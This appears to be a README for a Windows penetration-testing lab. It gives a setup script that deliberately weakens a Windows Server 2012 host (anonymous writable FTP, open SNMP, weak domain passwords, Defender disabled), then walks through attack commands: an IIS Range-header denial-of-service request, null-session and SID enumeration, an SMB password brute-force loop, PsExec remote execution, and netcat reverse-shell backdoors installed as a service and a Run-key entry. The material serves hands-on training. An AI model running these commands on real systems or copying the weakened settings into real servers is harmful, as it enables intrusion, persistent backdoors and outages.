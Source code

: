 ##Windows Server 2012

###Configure NetBios

![](https://s11.postimg.org/s3ne4zdgj/image.png)


###Run the setup script as Administrator

```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/DanielRTeixeira/Academy/master/Lab/2012R2/setup.ps1')
```

Setup.ps1

```
#Install .Net 3.5

Install-WindowsFeature Net-Framework-Core

#Setup SNMP

Import-Module ServerManager
Get-WindowsFeature -name SNMP* | Add-WindowsFeature -IncludeManagementTools
REG ADD HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\SNMP\Parameters\ValidCommunities /v public /t REG_DWORD /d 8 /f
REG DELETE HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\SNMP\Parameters\PermittedManagers\ /f

#Setup FTP Server

Add-WindowsFeature Web-FTP-Server

Import-Module WebAdministration

New-WebFtpSite -Name "Default FTP Site" -Port "21"
cmd /c \Windows\System32\inetsrv\appcmd set SITE "Default FTP Site" "-virtualDirectoryDefaults.physicalPath:C:\"
Set-ItemProperty "IIS:\Sites\Default Ftp Site" -Name ftpServer.security.authentication.basicAuthentication.enabled -Value $true
Set-ItemProperty "IIS:\Sites\Default Ftp Site"-Name ftpServer.security.ssl.controlChannelPolicy -Value 0
Set-ItemProperty "IIS:\Sites\Default Ftp Site" -Name ftpServer.security.ssl.dataChannelPolicy -Value 0
Add-WebConfiguration "/system.ftpServer/security/authorization" -value @{accessType="Allow";roles="";permissions="Read,Write";users="*"} -PSPath IIS:\ -location "Default Ftp Site"
Restart-WebItem "IIS:\Sites\Default FTP Site"


#Enable RDP

set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 0


#Setup Users

Import-Module ActiveDirectory

NEW-ADUSER Bob -AccountPassword (ConvertTo-SecureString "P4ssw0rd" -AsPlainText -force) -enabled $true 
NEW-ADUSER John -AccountPassword (ConvertTo-SecureString "C0mput3r" -AsPlainText -force) -enabled $true 
Add-ADGroupMember "Domain Admins" Bob

```

#Windows 10

#Setup


###gpedit.msc
```
Computer Configuration/Administrative Templates/Windows Components/Windows Defender

Turn off Windows Defender
```

![](https://s11.postimg.org/rpm25dtcz/GPO.png)


##Tools

###SuperScan v4.1

http://www.mcafee.com/us/downloads/free-tools/superscan.aspx

###Advanced Port Scanner

http://www.advanced-port-scanner.com

###NetBIOS Enumerator

http://nbtenum.sourceforge.net


###NBTEnum

http://home.ubalt.edu/abento/753/enumeration/enumerationtools.html

##DOS IIS
```
curl -v 192.168.1.100/iisstart.htm -H 'Host: test' -H 'Range: bytes=20-18446744073709551615'
```

##Enumeration


###Net use

```
net use \\192.168.1.100\IPC$ "" /u:""
```

###user2sid
```
.\user2sid.exe \\192.168.1.100  "domain users"
```
###sid2user
```
.\sid2user.exe \\192.168.1.100 5 21 2845911997 4189108871 3924515755 500
```
###Loops
```
for /L %I IN (1000,1,1050) DO sid2user \\192.168.1.100 5 21 2845911997 4189108871 3924515755 %I >> users.txt
```


###NBTEnum
```
nbtenum.exe -q 192.168.1.100
```

###Loops
```
for /L %I IN (1600,1,1610) DO sid2user \\192.168.1.100 5 21 2845911997 4189108871 3924515755 %I >> users.txt
```

###PassList
```
https://goo.gl/QMiDl7
```

###Dropping SMB sessions

```
net use /del *
```
###Brute Force

```
for /f %I IN (PassList.txt) DO @echo %I & @net use \\192.168.1.100\IPC$ %I /u:Domain100.internal\Administrator 2>null && pause
```
###SMB connection
```
net use * \\192.168.1.100\C$
```

###End SMB connection

```
net use * /del
```


##Running Remote Commands


###Tasklist

```
tasklist /S 192.168.1.100 /U domain100.internal\Administrator /v
```

###PSExec

```
https://live.sysinternals.com/psexec.exe
```

###PSExec Session
```
psexec.exe /accepteula \\192.168.1.100 -u Domain100.internal\Administrator -p !Pass1234 cmd.exe
```

###Download

```
cmd.exe /c "PowerShell (New-Object System.Net.WebClient).DownloadFile('http://raw.githubusercontent.com/DanielRTeixeiraAcademy/master/Lab/Tools/nc.exe','nc.exe')
```

###Installing NETCAT as a service

```
sc create backdoor binpath= "cmd /C C:\Windows\System32\nc.exe 192.168.1.145 9999 -e cmd.exe" type=own type=interact start=auto 
```

####Start the listener on Windows 10

```
cmd.exe /c "PowerShell (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/DanielRTeixeira/Academy/master/Lab/Tools/nc.exe','nc.exe')

nc -lp 9999
```

###Run the service

```
sc start backdoor
```


###NetCat Registry Backdoor

```
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v NetCat /t REG_SZ /d "C:\Windows\System32\nc.exe 192.168.1.145 9995 -e cmd.exe"
```
